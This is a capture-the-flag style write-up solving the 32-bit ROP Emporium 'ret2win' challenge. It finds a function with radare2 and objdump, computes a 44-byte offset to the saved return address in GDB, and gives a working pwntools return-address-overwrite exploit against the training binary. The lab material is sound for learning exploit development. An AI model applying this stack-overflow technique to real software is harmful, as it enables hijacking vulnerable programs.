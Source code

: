 ```yaml
---
layout: post
title: ROP Emporium Challenge 0: ret2win (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *Locate a method within the binary that you want to call and do so by overwriting a saved return address on the stack.*
<!--more-->

# ret2win32

Link: https://ropemporium.com/challenge/ret2win.html


--------------------------


## 1. Studying the binary

List functions with:

```
nm ret2win32 | grep 't'
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_1.jpg)

Or with radare:

```
r2 ret2win32
aaaa
afl
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_2.jpg)

Then we can disassembly this function using again radare:

```
r2 ret2win32
aaaa
s sym.ret2win
pdf
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_3.jpg)

We can disassembly the main function too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_4.jpg)


## 2. Calculating EIP overwrite offset

I will open GDB with GEF script:

```
gdb -q ./ret2win32
```

Using Python we create characters to test when it crashes:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_5.jpg)


With 45 we overwrite only 1 byte, so the offset is 44:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_6.jpg)

Note: It will be the same offset for all the 32 bits binaries of Rop Emporium.


## 3. Calling ret2win

We can find the function address with:

```
objdump -D ret2win32 | grep ret2win
```

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_7.jpg)

This address can be found also using gdb (*info functions*).

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_8.jpg)



## 4. Final exploit

The exploit code is then:

```
from pwn import *

context(arch='i386', os='linux')
p = process('./ret2win32')

junk =    "A"*44
ret2win = 0x08048659
rop = junk + p32(ret2win)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

The result:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/0_ret2win32/images/Screenshot_9.jpg)
